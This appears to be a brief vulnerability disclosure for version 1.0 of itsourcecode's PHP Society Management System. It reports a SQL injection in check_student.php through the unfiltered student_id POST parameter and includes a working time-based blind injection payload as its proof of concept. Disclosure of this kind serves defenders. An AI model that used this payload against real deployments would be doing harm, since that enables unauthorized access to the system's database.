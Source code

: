 # Vendor

itsourcecode

# Product

Society Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Society-Management-System-Project-In-PHP-Free-Download-Source-Code.zip

# Description

在/check_student.php页面存在SQL注入漏洞，这是由于student_id参数没有经过任何过滤。

# Poc
···
Parameter: student_id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: student_id=12345678' AND (SELECT 2119 FROM (SELECT(SLEEP(5)))fURM) AND 'Njoa'='Njoa
···

